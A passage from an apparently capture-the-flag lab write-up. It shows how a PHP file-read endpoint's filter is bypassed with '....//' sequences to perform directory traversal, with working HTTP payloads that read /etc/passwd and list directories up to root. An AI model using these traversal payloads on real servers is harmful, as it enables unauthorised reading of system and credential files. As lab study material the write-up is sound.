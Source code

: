 It works and outputs the contents of the PHP script. It is in JSON format and not good to read, but can be fixed with **jq**:
```markdown
curl -s http://10.10.10.87/fileRead.php -d 'file=fileRead.php' | jq -r ."file"
```
```php
<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
                header('Content-Type: application/json');
                $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                if(strpos($_POST['file'], "user.txt") === false){
                        $file = fopen("/var/www/html/" . $_POST['file'], "r");
                        $fileContent['file'] = fread($file,filesize($_POST['file']));  
                        fclose();
                }
        }
        echo json_encode($fileContent);
}\:
```

The _str_replace_ is the reason why the **Directory Traversal attack** did not work, but this can by bypassed.
It replaces _"../"_ with nothing, so using _"....//"_ instead, it will replace one _"../"_ and leave one _"../"_ behind, which results in a directory traversal:
```markdown
POST /fileRead.php HTTP/1.1
(...)
file=....//....//....//etc/passwd
```

This works and outputs the contents of _/etc/passwd_ and thus reading files on the box is possible.

As the _dirRead.php_ reads directories from the box, the same attack can be done on this script to enumerate the system more.
```markdown
POST /dirRead.php HTTP/1.1
(...)
path=.
```

This shows the contents of the current directory and there are all PHP scripts and some images which means we now have the capability to enumerate directories with _dirRead.php_ and reading files with _fileRead.php_.

### Enumerating the File System

Lets move up some directories until reaching the root (/) directory:
```markdown
POST /dirRead.php HTTP/1.1
(...)
path=....//....//....//
```
